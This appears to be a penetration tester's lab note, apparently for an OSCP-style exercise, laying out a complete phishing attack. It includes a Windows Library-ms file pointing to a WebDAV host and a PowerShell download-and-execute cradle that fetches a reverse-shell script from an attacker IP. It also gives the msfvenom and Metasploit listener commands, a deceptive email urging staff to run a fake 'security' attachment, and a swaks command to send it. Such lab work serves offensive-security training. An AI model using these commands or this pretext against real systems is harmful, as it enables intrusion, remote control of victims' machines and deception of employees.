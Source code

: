 <% tp.file.rename("1_phishing")%>


## Creating the Payloads
- 1st stage: config.Library-ms
  This opens our remotely hosted 2nd stage dropper like it was a local folder
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://HIP</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

- 2nd stage (autoconfig.lnk)
```powershell
powershell.exe -NoExit -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.163:8000/revshell.ps1'); revshell"
```

- 3rd stage
```bash
msfvenom -p windows/powershell_reverse_tcp LHOST=192.168.45.163 LPORT=4444 NOEXIT -f raw -o revshell.ps1
```
>  MUST remove the gibberish from the beginning and end of the file, otherwise the payload won't work

## Setup C2

- Host the 2nd stage via webdav (shell 1)
```bash
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root .
```

- Create a copy of the library and use that to transfer those two files to kali
> Always keep an unused version of this library file as it might get unusable once opened

- Host the 3rd stage via HTTP (shell 2)
```bash
python3 -m http.server 8000
```

- Receive reverse shell (shell 3)
```bash
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/powershell_reverse_tcp; set LHOST $hip; set LPORT $hport; set ExitOnSession false; run -j"
```

## Send Phish
- Example contents for body.txt
```
Hey!
I checked WEBSRV1 and discovered that the previously used staging script still exists in the Git logs. I'll remove it for security reasons.

On an unrelated note, please install the new security features on your workstation. For this, download the attached file, double-click on it, and execute the configuration shortcut within. Thanks!

John
```

- Shell 4
```bash
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --body @body.txt --header "Subject: Staging Script" --suppress-data --server $ip_mailserver [-au $username -ap $password]
```
